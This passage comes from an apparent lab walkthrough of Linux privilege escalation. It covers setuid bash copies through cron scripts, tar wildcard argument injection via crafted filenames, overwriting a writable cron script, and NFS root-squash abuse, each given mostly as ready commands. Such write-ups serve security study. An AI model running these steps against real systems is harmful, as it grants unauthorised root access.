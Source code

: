 ```bash
$echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
$chmod +x /home/user/overwrite.sh
```

Wait 1 min for the bash script to execute then type ```/tmp/bash -p``` and you can get the root shell.

## Privilege Escalation - (Wildcards)

We have seen there is another script file let's see the code of that script ```cat /usr/local/bin/compress.sh```. We can see that wildcard (*) is used by tar. 

Exploitation Method

```bash
$echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
$touch /home/user/--checkpoint=1
$touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

Wait 1 min for this script to run then type ```/tmp/bash -p```.

## Privilege Escalation - Cron  (File Overwrite)

We have seen that there is a script file called overwrite.sh let's try to find it's location with ```find / -name overwrite.sh 2>/dev/null```. The location is /usr/local/bin/overwrite.sh now let's see if we have permission to write to that file with ```ls -la /usr/local/bin```. We can see that we have permission to write to that file. So, let's overwrite it by using ```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh``` Now wait for 1 min for the script to run then type ```/tmp/bash -p```

## Privilege Escalation - NFS root Squashing

Find the NFS permission by using ```cat /etc/exports```, now find the exports by using ```showmount -e ip```. Now in attacker machine type 

```bash
$mkdir /tmp/1
#mount -o rw,vers=2 ip:/tmp /tmp/1
#echo 'int main() {setuid(0); setgid(0); system("/bin/bash");}' > /tmp/1/x.c
#gcc /tmp/1/x.c -o /tmp/1/x
#chmod +s /tmp/1/x
```

In target machine run ```/tmp/x```

## Resources
[TryHackMe](https://tryhackme.com)
[LegalHackers](https://legalhackers.com/)
[GTFobins](https://gtfobins.github.io/)
